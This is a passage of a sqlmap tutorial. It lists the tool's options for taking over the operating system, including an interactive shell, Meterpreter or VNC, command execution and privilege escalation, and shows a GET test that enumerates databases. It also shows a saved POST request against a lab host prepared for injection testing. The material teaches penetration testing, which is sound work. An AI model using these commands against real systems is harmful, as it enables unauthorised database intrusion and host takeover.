 #### _These options can be used to access the back-end database management system on the target operating system._

| <p>Options<br></p>        | <p>Description<br></p>                                           |
| ------------------------- | ---------------------------------------------------------------- |
| --os-shell                | <p>Prompt for an interactive operating system shell<br></p>      |
| --os-pwn                  | <p>Prompt for an OOB shell, Meterpreter or VNC<br></p>           |
| <p>--os-cmd=OSCMD<br></p> | <p>Execute an operating system command<br></p>                   |
| <p>--priv-esc<br></p>     | <p>Database process user privilege escalation<br></p>            |
| <p>--os-smbrelay<br></p>  | <p>One-click prompt for an OOB shell, Meterpreter or VNC<br></p> |

## Example of usage

### Simple HTTP GET Based Test

`sqlmap -u https://testsite.com/page.php?id=7 --dbs`

Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database.

### Simple HTTP POST Based Test

First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.

<figure><img src="https://i.imgur.com/xRFhXVn.png" alt=""><figcaption></figcaption></figure>

You’ll notice in the request above, we have a POST parameter 'blood\_group' which could a vulnerable parameter.

#### Saved HTTP POST request

```shell-session
nare@nare$ cat req.txt
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.17.116
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.17.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.17.116/blood/nl-search.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bt0q6qk024tmac6m4jkbh8l1h4
Connection: close

blood_group=B%2B
```
